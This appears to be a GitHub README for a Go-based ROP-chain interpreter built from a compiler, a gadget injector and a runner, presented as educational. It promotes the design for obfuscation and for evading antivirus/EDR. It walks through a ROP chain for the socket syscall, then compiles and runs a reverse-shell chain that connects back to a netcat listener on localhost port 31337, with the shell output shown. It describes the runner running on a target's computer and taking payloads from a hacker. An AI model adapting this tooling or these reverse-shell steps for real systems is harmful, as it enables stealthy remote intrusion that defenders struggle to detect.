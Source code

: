 # Go-based ROP interpreter

This directory contains tools that demonstrate implementing a very primitive
interpreter using [ROP gadgets][rop] in Go. It is for educational use only.
Why Go? Because it is a high-level language that runs just about anywhere
and is easy to work with.

[@SeungKang][sk] helped a ton with this crazy idea - thank you :)

[rop]: https://en.wikipedia.org/wiki/Return-oriented_programming
[sk]: https://github.com/SeungKang

In theory, a ROP-based interpreter provides:

- Obfuscation against intent and reverse engineering
- More control over code at runtime (i.e., possible to clear payloads from
  memory / avoid leaving behind artifacts)
- Defense against detection by antivirus / EDR (since we are reusing CPU
  instructions that already exist in the executable's code segment)

## Tooling

- [`compiler`](compiler/main.go) - Translates a human-readable ROP chain
  source file into a binary "unresolved ROP chain". The file format is
  defined in the compiler source file
- [`injector`](injector/main.go) - Injects binary ROP gadgets into `runner`
  (i.e., takes the binary output of `nasm` and overwrites a dummy function
  in runner)
- [`runner`](runner/main.go) - Executes an unresolved ROP chain produced
  by `compiler`

## How it works (tl;dr summary)

1. Generic ROP gadgets are generated using nasm ([an example][example-gadgets])
2. ROP gadgets are injected into the runner exectuable using `injector`
3. An "unresolved ROP chain" is defined according to the syntax documented
   by the `compiler` program ([an example][example-urc])
4. The unresolved ROP chain is compiled to binary using `compiler`
5. The `runner` program parses the unresolved ROP chain, looks up the gadgets
   from the unresolved ROP chain and executes them

[example-gadgets]: examples/rop-gadgets.asm
[example-urc]: examples/reverse-shell-chain.txt

## How it works (in detail)

Users must first define a list of ROP gadgets using a tool like `nasm` and
compile the assembly into binary. Each gadget acts as a reusable building
block for one or more programs. Since ROP gadgets are so generic, they can
be shared amongst multiple programs.

The ROP gadgets are then injected into the [`runner`](runner/main.go)
program using the [`injector`](injector/main.go) program. The `runner`
acts as an interpreter; it parses a user-defined "unresolved ROP chain"
at runtime. The unresolved ROP chain is generated using a custom file
syntax fed into the [`compiler`](compiler/main.go).

In the real world, the `runner` would be executed on the target computer.
A hacker would pass various unresolved ROP chain payloads through an
authenticated network channel to the runner. Here, the `runner` reads
the chain from the filesystem.

Users define a ROP chain in a human-readable format using a ROP chain source
file. This source file is compiled into a binary blob using the `compiler`
program. The resulting blob consists of the ROP gadgets' offsets that the
interpreter must resolve at runtime.

For example, the following source file produces an "unresolved ROP chain"
that executes the `socket` system call:

```
; socket syscall
g: pop rdi; ret
d: 0x02
g: pop rsi; ret
d: 0x01
g: pop rdx; ret
d: 0x06
g: pop rax; ret
d: 0x29
g: syscall; ret
```

## Example

- Requirements:
  - Debian (x86 64-bit CPU)
  - Go
  - nasm
  - netcat (nc)

In this example, we will compile a ROP chain that uses the ROP gadgets
provided by the `runner` program to execute a reverse shell. The reverse
shell will connect to 127.0.0.1 port 31337.

#### 1. Compile the ROP gadgets

```console
$ mkdir build
$ nasm -f bin -o build/rop-gadgets.bin examples/rop-gadgets.asm
```

Note: ROP gadgets can be examined with objdump like so:

```console
$ objdump -D -M intel,x86-64 -b binary -m i386 build/rop-gadgets.bin
(...)
0000000000000000 <.data>:
   0:	c3                   	ret    
   1:	48 89 e7             	mov    rdi,rsp
   4:	41 5a                	pop    r10
   6:	c3                   	ret
(...)
```

#### 2. Build the runner and inject ROP gadgets

```console
$ go build -o build/runner-orig runner/main.go 
$ go run injector/main.go -t elf -f build/runner-orig -n main.RopRegion -i build/rop-gadgets.bin > build/runner-injected
$ chmod +x build/runner-injected
```

#### 3. Compile the ROP chain

```console
$ go run compiler/main.go -gadgets build/rop-gadgets.bin -src examples/reverse-shell-chain.txt > build/reverse-shell-chain.bin
```

#### 4. Start netcat listener

```console
$ nc -v -l -p 31337
listening on [any] 31337 ...
```

#### 5. Run the ROP chain

Note: We use `-fork` here because the Go program will crash without it.
We *think* the garbage collector interferes with our ROP chain, so we
disable it by forking to a single-threaded process (meaning no other
threads can interfere with our payload's execution).

```console
$ ./build/runner-injected -fork build/reverse-shell-chain.bin
2024/08/25 10:55:09 pc: 0x4a89d7 | pc line: 81 | main: 0x4a87c0 | uncalled: 0x4a8fc0
0xc000093578: 0x4142434445464748
0xc000093580: 0x4a89d7
0xc000093588: 0x51
0xc000093590: 0x18
0xc000093598: 0x4a8fc0
0xc0000935a0: 0xc0000935a0
0xc0000935a8: 0xc0000935a0
(...)
```

#### 6. Check if netcat received a connection

```
connect to [127.0.0.1] from localhost [127.0.0.1] 33130
whoami
user0
```
